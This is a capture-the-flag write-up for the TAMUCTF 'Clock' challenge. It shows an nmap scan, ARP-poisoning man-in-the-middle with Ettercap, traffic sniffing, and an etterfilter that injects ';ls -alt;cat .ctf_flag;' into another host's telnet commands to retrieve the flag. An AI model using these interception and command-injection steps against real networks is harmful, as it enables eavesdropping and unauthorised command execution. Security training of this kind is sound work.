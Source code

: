 # TAMUCTF Clock (Network/Pentest) Write-Up

### Jump straight in
``

    nmap 172.30.0.0/28
    
	Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-03 21:24 CST
	Nmap scan report for 172.30.0.2
	Host is up (0.087s latency).
	Not shown: 999 closed ports
	PORT   STATE SERVICE
	23/tcp open  telnet
	MAC Address: 02:42:16:55:5A:3B (Unknown)

	Nmap scan report for 172.30.0.3
	Host is up (0.087s latency).
	All 1000 scanned ports on 172.30.0.3 are closed
	MAC Address: 02:42:CF:07:5C:FF (Unknown)

	Nmap scan report for 172.30.0.14
	Host is up (0.0000060s latency).
	All 1000 scanned ports on 172.30.0.14 are closed

	Nmap done: 16 IP addresses (3 hosts up) scanned in 7.01 seconds
	``

2. We telnet open and we also see 2 hosts online. `172.30.0.2 and 172.30.0.3`. Taking knowledge from the previous challenges we will now initiate an ARP spoofing ettercap.

	**Arp Spoofing**

	Lets crack open Ettercap

		ettercap -G 				Opens etter in graphical mode

	First we gotta tell ettercap what it’s doing open.

		Sniff > Unified Sniffing > tap0 > OK
		
		This is telling ettercap to sniff the unified network tap0 which is going to set out interface to the VPN we connected to for the challenges

	Next we need to tell ettercap where the hosts are. Or actually let it find them itself. 

		Hosts > Scan for hosts

	Done. It now knows who’s online

	Now we need to actually specify the mode of the ettercap man in the middle attack. 

		Mitm > Arp Poisioning > Sniff remote connections (leave Only poision one way OFF) > OK
		
		This is setting the Mitm mode to ARP spoofing.  


3. Now we shall slide on over to wireshark and view the traffic we are stealing. 

	We some interesting things. One of with is the telnet login, but funny enough we will never directly telnet to this box. 
	We also can see that there is a challenge thingy and that the box `172.30.0.3` seems to solve it automatically. My first thought was that we can get `172.30.0.3` to solve the challenge we get from our login but that was a bad idea. Finally discovered etterfilters with a little nudge and started to write one that would drop the letter `t` from the command it’s running `date` and inject `;ls -la;` with the semi-colons there to terminate the commands before and after

	Important Note: We chose to drop the letter t from date because it's the only letter in that command that is not applicable in hex. If we had chosen any other letter we would've corrupted the challenge and thus gotten an incorrect response and not allowed access into the box. 

4. As for the actual etterfilter…

		if (ip.dst == '172.30.0.2'){
			msg("Found packet. Now editing");
			replace("t", ";ls -alt;");
		}

	and now to run this we first need to compile. I named this script `clocketter` so my compile command was

		etterfilter clocketter

	at least for Kali Linux.

	Now we can venture on over to ettercap and give it the filter.

		Filters > Load a filter... > Select etterfilter.ef > OK

	You’ll know It’s working if you included a msg to tell you it’s working. Mine started dumping in `Found packet. Now editing` so I was hopeful I was about to see list of files. Wireshark dumped back…

		-bash: exi: command not found
		total 28
		-rw------- 1 alice alice 7888 Mar  4 03:34 .bash_history
		drwxr-xr-x 1 alice alice   41 Mar  3 20:36 .
		drwx------ 2 alice alice   34 Mar  3 20:36 .cache
		-rw------- 1 root  root    53 Feb 22 13:21 .naumotp_secret
		-rw-r--r-- 1 root  root    40 Feb 22 13:21 .ctf_flag
		drwxr-xr-x 1 root  root    19 Feb 22 13:21 ..
		-rw-r--r-- 1 alice alice  655 May 16  2017 .profile
		-rw-r--r-- 1 alice alice  220 Aug 31  2015 .bash_logout
		-rw-r--r-- 1 alice alice 3771 Aug 31  2015 .bashrc

	and thus I extended my etterfilter to be

		if (ip.dst == '172.30.0.2'){
			msg("Found packet. Now editing");
			replace("t", ";ls -alt;cat .ctf_flag;");
		}

	which dumped out

		-bash: exi: command not found
		total 28
		-rw------- 1 alice alice 7888 Mar  4 03:34 .bash_history
		drwxr-xr-x 1 alice alice   41 Mar  3 20:36 .
		drwx------ 2 alice alice   34 Mar  3 20:36 .cache
		-rw------- 1 root  root    53 Feb 22 13:21 .naumotp_secret
		-rw-r--r-- 1 root  root    40 Feb 22 13:21 .ctf_flag
		drwxr-xr-x 1 root  root    19 Feb 22 13:21 ..
		-rw-r--r-- 1 alice alice  655 May 16  2017 .profile
		-rw-r--r-- 1 alice alice  220 Aug 31  2015 .bash_logout
		-rw-r--r-- 1 alice alice 3771 Aug 31  2015 .bashrc
		gigem{a032b26061c96e00e2a0b9e991f11476}
		alice@f855819477fd:~$

	This was a relatively short challenge in the number of steps but figuring out etterfilters, finding this solution, and executing the hack was a long tedious process. 
